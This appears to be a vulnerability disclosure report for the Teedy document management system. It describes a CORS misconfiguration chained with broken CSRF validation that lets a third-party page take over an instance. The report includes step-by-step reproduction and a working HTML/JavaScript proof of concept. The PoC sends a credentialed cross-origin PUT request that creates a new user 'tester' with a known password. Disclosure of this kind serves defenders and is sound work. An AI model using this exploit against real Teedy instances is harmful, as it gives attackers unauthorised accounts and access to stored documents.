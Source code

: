 # :dizzy: Description:
- Teedy is Lightweight document management system packed with all the features you can expect from big expensive solutions. But By Default Teedy Comes With Cors Miconfigurated Web Service. That Accepts Any Origin While Performing Requests And Allows Using Credntials While Sending Them. That Was Chained The Broken CSRF Token Validation On Cookies Perform an Instance Takeover Using CORS Misconfig And CSRF By Adding New User Into The Instance That Can Login And Access The Instance Data.

## :ok_hand: Steps To Reproduce:
- Install Teedy Localy On Your Machine. Then Run It Using Maven It Will Be Working Under Port: 8080
- Replace The HTML PoC `{HOST}` On The Code Below With Your Machine IP.
- Open That File On Your Browser Then Click The Button. After You Get a Pop-Up With `Exploited` On Your Screen That Means The Exploit Did Work.
- Go To Your Instance And Try To Login With `tester` And Password: `password123`. And You Will Be Able To Login.

## :boom: Proof Of Concept:
- Here's The HTML Proof Of Concept Code:

```html
<!DOCTYPE html>
<html>
<head>
	<title>Hello World</title>
</head>
<body>
	<div style="text-align: center;">
		<h1>Click The Button Below</h1>
		<input type="button" name="test" onclick="addUser();">
	</div>

	<script type="text/javascript">
		function addUser() {
			const http = new XMLHttpRequest();
			const url = "http://{HOST}:8080/docs-web/api/user?email=hacker@gmail.com&password=password123&passwordconfirm=password123&storage_quota=100000000&username=tester";

			http.withCredentials = true;
			http.open('PUT' , url);
			http.setRequestHeader('Content-Type' , 'application/x-www-form-urlencoded;charset=utf-8')
			http.send();

			http.onreadystatechange = (e) => {
  				alert('Exploited!');
			}
		}
	</script>
</body>
</html>
```
- Follow The Steps To Reproduce To Exploit This Issue, Otherwise, Here's a Cool Video For The Exploit Uploaded On Google Drive.
- URL: https://drive.google.com/file/d/1SefbkSShIB6fOyGBjGd1d13p5XzZONuZ/view?usp=sharing

Cheers.
